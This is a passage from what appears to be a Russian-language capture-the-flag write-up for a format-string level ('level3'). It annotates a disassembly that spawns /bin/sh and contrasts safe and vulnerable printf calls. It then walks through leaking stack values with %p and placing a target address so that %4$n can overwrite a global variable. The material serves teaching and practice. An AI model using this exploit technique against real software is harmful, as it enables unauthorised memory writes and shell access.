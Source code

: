 ```sh
# 4.3.1. Подготовка и вызов функции fwrite():
0x080484e4 <+64>:    mov    0x8049880,%eax  # x/s 0x8049880 -> <stdout@@GLIBC_2.0>:   ""
0x080484e9 <+69>:    mov    %eax,%edx       # 1 в edx
0x080484eb <+71>:    mov    $0x8048600,%eax # x/s 0x8048600 -> "Wait what?!\n"
0x080484f0 <+76>:    mov    %edx,0xc(%esp)  # 1                передано   4м аргументом
0x080484f4 <+80>:    movl   $0xc,0x8(%esp)  # 12               передано   3м аргументом
0x080484fc <+88>:    movl   $0x1,0x4(%esp)  # 1                передано   2м аргументом
0x08048504 <+96>:    mov    %eax,(%esp)     # "Wait what?!\n"  передано   1м аргументом
0x08048507 <+99>:    call   0x80483b0 <fwrite@plt> # вызов fwrite("Wait what?!\n", 1, 12, 1)
# 4.3.1. Подготовка и вызов функции system():
0x0804850c <+104>:   movl   $0x804860d,(%esp) # "/bin/sh"      передано      аргументом
0x08048513 <+111>:   call   0x80483c0 <system@plt> # вызов system("/bin/sh")
  
# 5. Далее завершение и возврат из функции:
0x08048518 <+116>:   leave  
0x08048519 <+117>:   ret  
# End of assembler dump.
```

___

</details> 

Уязвимость `printf()`: 
1. Защищенное использование функции: `printf("%s", string);` 
2. [Уязвимое использование функции](https://habr.com/ru/company/pvs-studio/blog/137411/): `printf(string);`

Из пункта 3 "Подготовка к вызову `printf()`" в вышеприведенном анализе disassemble v() видно, что в функцию передан буфер - уязвимое использование функции.

Также есть еще способ, как проверить `printf()` на уязвимость через терминал:
```sh
echo "%p %p %p" | ./level3 
# ||
# \/
# 0x200 0xb7fd1ac0 0xb7ff37d0
```

Значит, при написании программы использовался уязвимый вариант `printf()`.

```sh
echo "AAAA %p %p %p %p %p %p %p %p " | ./level3 
# ||
# \/
#  ____________________________________
# ||                                  ||
# \/                                  \/
# AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 
```
Вместо `AAAA` подставляю адрес глобальной переменной `m` ([выше я его узнала с помощью дебаггера](#lvl3_m)) `\x8c\x98\x04\x08`
```sh
echo -e "\x8c\x98\x04\x08 %p %p %p %p " | ./level3 
# ||
# \/
# �                200 0xb7fd1ac0 0xb7ff37d0 0x804988c 
# \x8c\x98\x04\x08  %p      %p        %p        %p 
#                    1       2         3         4
# наша глобальная переменная m под номером 4. Значит %4$n
```
